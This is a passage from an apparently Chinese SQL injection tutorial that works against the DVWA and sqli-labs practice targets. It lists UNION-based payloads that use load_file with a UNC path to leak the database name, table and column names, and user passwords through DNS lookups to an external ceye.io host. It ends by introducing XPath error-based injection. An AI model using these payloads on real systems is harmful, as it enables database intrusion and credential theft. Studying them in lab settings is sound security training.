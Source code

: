 ```


SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2 union select 2,load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#'

1' and 1=2 union select 2,load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#


1' and 1=2 union select 2,load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 1,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 0,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 1,1),'.ubs9hj.ceye.io\\AB'))#

1' and 1=2 union select 2,load_file(concat('\\\\',(select user from dvwa.users limit 0,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select password from dvwa.users limit 0,1),'.ubs9hj.ceye.io\\AB'))#



1'and 1=2 union select user,password from dvwa.users#


select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users'

(select table_name from information_schema.tables where table_schema=database() limit 0,1)
```





## 4.基于报错的注入

基于报错的注入有很多种形式。

这里主要介绍利用XPath语法错误进行注入和主键重复报错注入。

### 4.1 利用XPath语法错误进行注入

这里选用sqli-lab靶场的第六关。

![image-20220219230843854](../../images/image-20220219230843854.png)
